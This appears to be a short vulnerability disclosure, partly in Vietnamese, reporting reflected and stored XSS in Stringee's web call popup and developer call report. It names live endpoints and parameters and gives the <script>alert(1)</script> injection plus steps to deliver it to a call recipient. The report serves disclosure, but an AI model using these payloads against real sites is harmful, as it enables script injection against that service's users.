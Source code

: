 # Reflected XSS + Stored XSS




## Reflected XSS 

Endpoint : https://static.stringee.com/button-call/lastest/videocall/popup_voicecall.html?from_number=[xss]

Inject : ```<script>alert(1)</script>```

![](https://raw.githubusercontent.com/VHAE04/Report_web_security_vulnerabilities/main/Stringee/image/Reflected_XSS.jpg)


## Stored XSS

Url : https://developer.stringee.com/report/call

Inject : ```<script>alert(1)</script>```

Tạo một access_token để thực hiện cuộc gọi 

thay đổi tên người cuộc gọi = `inject `

==> người nhận(victim) bị xss

Endpoint : 

```
https://static.stringee.com/button-call/lastest/videocall/popup_voicecall.html
?from_number=[xss]
&to_number=84936423493
&call_type=free-voice-call
&access_token=[secret]
&hotline=[victim]

```

Inject : ```<script>alert(1)</script>```

![](https://github.com/VHAE04/Report_web_security_vulnerabilities/blob/main/Stringee/image/Stored_XSS.png?raw=true)
